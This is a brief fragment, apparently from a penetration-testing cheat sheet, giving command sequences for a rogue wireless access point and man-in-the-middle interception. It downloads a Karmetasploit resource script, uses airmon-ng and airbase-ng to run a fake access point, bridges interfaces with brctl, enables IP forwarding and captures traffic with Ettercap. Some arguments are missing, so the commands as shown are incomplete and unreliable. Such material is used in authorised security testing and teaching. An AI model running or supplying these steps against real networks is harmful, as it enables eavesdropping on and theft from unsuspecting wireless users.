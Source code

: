 Download Karmetasploit: wget [https://www.offensive-security.com/wp-content/uploads/2015/04/karma.rc\_.txt](https://www.offensive-security.com/wp-content/uploads/2015/04/karma.rc_.txt) msfconsole -r 

## MiTM Wireless

Place interface in monitor mode and set up AP: airmon-ng start wlan0 3 airbase-ng -c 3 -e  mon0

Create bridged interface: brctl addbr hacker brctl addif hacker eth0 brctl addif hacker at0 ifconfig eth0 0.0.0.0 up ifconfig at0 0.0.0.0 up ifconfig hacker 192.168.1.8 up

Enable ip forwarding: echo 1 &gt; /proc/sys/net/ipv4/ip\_forward

Next launch Ettercap in unified mode and capture traffic on the hacker interface.

